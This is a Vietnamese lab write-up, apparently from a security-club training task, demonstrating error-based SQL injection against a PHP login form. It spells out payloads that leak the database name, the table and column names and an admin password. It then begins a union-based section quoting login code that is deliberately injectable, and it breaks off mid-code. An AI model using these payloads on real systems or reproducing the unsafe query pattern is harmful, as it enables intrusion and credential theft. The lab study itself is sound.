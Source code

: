 Sau khi thử với username thì em thấy ở đây bị dính sql injection, thêm vào đó nếu em đăng nhập thành công thì dòng `Hello brooooooooooo!` sẽ hiện ra và không có thêm bất kỳ thông tin nào từ bản ghi.
![](https://i.imgur.com/cG00BpH.png)
Khi em truyền vào đó một câu truy vấn sai cấu trúc thì lỗi sẽ hiện ra, đây là dấu hiệu để em thử tấn công error based
![](https://i.imgur.com/82fe1kZ.png)

**Bước 2: Tìm tên database, tên bảng, tên cột**

Em thử bắt đầu với: 
`' or 1=1 group by concat(database(),'-', floor(rand(0)*2)) having min(0)-- `
Để cảnh báo được hiện ra em dựa vào `Duplicate entry for key 'group_key'` sử dụng hàm `floor(rand(0)*2)` để sinh ra chỉ 2 số là `0` hoặc `1` sau đó nối với tên database (là một giá trị cố định). Nối tên database với số được sinh random, mệnh đề `having min(0)` dùng để đưa ra điều kiện để giới hạn các bản ghi được được group.
*=> Điều này chắc chắn sẽ tạo ra một `group_key` bị trùng tại lần thứ 3 mà hàm `floor(rand(0)*2)`*
![](https://i.imgur.com/I1bhctR.png)

Ở phần `Warning` đã trả về cho em tên của database là `kcsc`

Tiếp tục với phương pháp như vậy để tìm tên bảng:
`' or 1=1 group by concat((select table_name from information_schema.tables where table_schema='kcsc'),'-',floor(rand(0)*2)) having min(0)-- `
![](https://i.imgur.com/wDmT3iA.png)

Em nhận được tên của bảng là `task_3`

Tương tự vậy em tìm đến tên của các cột:
`' or 1=1 group by concat((select column_name from information_schema.columns where table_name='task_3' limit 2,1),'-',floor(rand(0)*2)) having min(0)-- `

![](https://i.imgur.com/Mys0iGL.png)
![](https://i.imgur.com/t2n5HEA.png)
![](https://i.imgur.com/x3YOEWQ.png)

Có ba cột và tên lần lượt là: `id`, `username` và `password`

**Bước 3: Lấy dữ liệu**

Khi đã có đủ thông tin về tên bảng, tên cột bước cuối cùng là lấy dữ liệu bằng:
`' or 1=1 group by concat((select password from task_3 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

![](https://i.imgur.com/in59Ssc.png)

*=>Vậy là em đã có được password của admin: `admin123`.*

---
## Union based
Source code:
```php
    if(isset($_POST['login'])) {
        $username = $_POST['username'];
        $password = $_POST['password'];
        $conn = mysqli_connect("localhost", "root", "", "kcsc");
        $sql = "SELECT * FROM `task_3` WHERE `username` = '$username' AND `password` = '$password'";
        $resullt = mysqli_query($conn, $sql);

        if($resullt){
            if (isset($_POST['remember'])) {
                setcookie('remember', base64_encode($username.md5($username)), time() + (86400 * 30), "/");
```